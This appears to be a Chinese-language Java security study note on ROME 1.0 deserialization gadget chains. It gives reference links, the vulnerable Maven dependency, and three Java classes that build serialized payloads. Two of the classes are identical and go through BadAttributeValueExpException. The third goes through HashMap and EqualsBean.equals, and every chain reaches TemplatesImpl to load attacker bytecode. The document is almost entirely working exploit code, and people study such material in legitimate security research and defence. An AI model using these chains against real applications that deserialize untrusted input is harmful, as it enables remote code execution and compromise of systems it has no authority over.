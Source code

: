 ### 文章
[ROME改造计划](https://y4tacker.github.io/2022/03/07/year/2022/3/ROME%E6%94%B9%E9%80%A0%E8%AE%A1%E5%88%92/#Step1%E2%80%93%E6%94%B9%E9%80%A0%E5%88%A9%E7%94%A8%E9%93%BE)<br />[ROME改造计划 _ Y4tacker's Blog.pdf](https://www.yuque.com/attachments/yuque/0/2023/pdf/25358086/1693743858584-57fa8aff-af42-4272-a127-e031aacd9824.pdf)<br />[Java安全学习——ROME反序列化 - 枫のBlog](https://goodapple.top/archives/1145)<br />[Java安全学习——ROME反序列化 - 枫のBlog.html](https://www.yuque.com/attachments/yuque/0/2023/html/25358086/1693793315386-a664578b-9cc7-482e-8b30-2cc2abb44c3f.html)
### 适用条件
```java
  <dependency>
      <groupId>rome</groupId>
      <artifactId>rome</artifactId>
      <version>1.0</version>
  </dependency>
```
### 利用链
#### 原始利用链
```java
package org.example;

import com.sun.syndication.feed.impl.ToStringBean;

import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;

/**
 * 通过 BadAttributeValueExpException 触发 ROME 链
 * BadAttributeValueExpException.readObject()
 *     ToStringBean.toString()
 *         pReadMethod.invoke()
 *             TemplatesImpl.getOutputProperties()
 *             TemplatesImpl.newTransformer()
 *             ......
 *             TemplatesImpl.defineClass()
 * */
public class RomeTest {

    public static void main(String[] args) throws Exception {
        Object templates = CreateTempates.createTemplatesImpl();
        // 第一个参数需要为 Templates.class 而不能是 TemplatesImpl.class ,防止 getStylesheetDOM 方法报错
        ToStringBean toStringBean = new ToStringBean(Templates.class, templates);
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(1);
        Reflections.setFieldValue(badAttributeValueExpException, "val", toStringBean);
        Ser.serialize(badAttributeValueExpException, "ser.bin");
        Ser.unserialize("ser.bin");
    }
}

```
#### 通过 BadAttributeValueExpException 触发 ROME 链
```java
package org.example;

import com.sun.syndication.feed.impl.ToStringBean;

import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;

/**
 * 通过 BadAttributeValueExpException 触发 ROME 链
 * BadAttributeValueExpException.readObject()
 *     ToStringBean.toString()
 *         pReadMethod.invoke()
 *             TemplatesImpl.getOutputProperties()
 *             TemplatesImpl.newTransformer()
 *             ......
 *             TemplatesImpl.defineClass()
 * */
public class RomeTest {

    public static void main(String[] args) throws Exception {
        Object templates = CreateTempates.createTemplatesImpl();
        // 第一个参数需要为 Templates.class 而不能是 TemplatesImpl.class ,防止 getStylesheetDOM 方法报错
        ToStringBean toStringBean = new ToStringBean(Templates.class, templates);
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(1);
        Reflections.setFieldValue(badAttributeValueExpException, "val", toStringBean);
        Ser.serialize(badAttributeValueExpException, "ser.bin");
        Ser.unserialize("ser.bin");
    }
}

```
#### 通过equals触发ROME链
```java
package org.example;

import com.sun.syndication.feed.impl.EqualsBean;

import javax.xml.transform.Templates;
import java.util.HashMap;

/**
 * @author qiluo
 * @date 2023/9/3 16:23
 * 通过 HashMap 的调用 equals 进行触发 EqualsBean 的 equals 方法
 * HashMap.readObject()
 * HashMap.putVal()
 *     HashMap1.equals(HashMap2)
 *     AbstractMap.equals(HashMap2)
 *         EqualsBean.equals(TemplatesImpl)
 *         EqualsBean.beanEquals(TemplatesImpl)
 *             pReadMethod.invoke()
 *                 TemplatesImpl.getOutputProperties()
 *                 ......
 *                 TransletClassLoader.defineClass()
 */
public class RomeTest2 {
    public static void main(String[] args) throws Exception {
        Object templates = CreateTempates.createTemplatesImpl();
        EqualsBean bean = new EqualsBean(String.class,"");
        HashMap map1 = new HashMap();
        HashMap map2 = new HashMap();
        map1.put("aa",templates);
        map1.put("bB",bean);
        map2.put("aa",bean);
        map2.put("bB",templates);
        HashMap map = new HashMap();
        map.put(map1,"");
        map.put(map2,"");

        Reflections.setFieldValue(bean,"_beanClass", Templates.class);
        Reflections.setFieldValue(bean,"_obj",templates);

        Ser.serialize(map, "ser.bin");
        Ser.unserialize("ser.bin");
    }
}

```
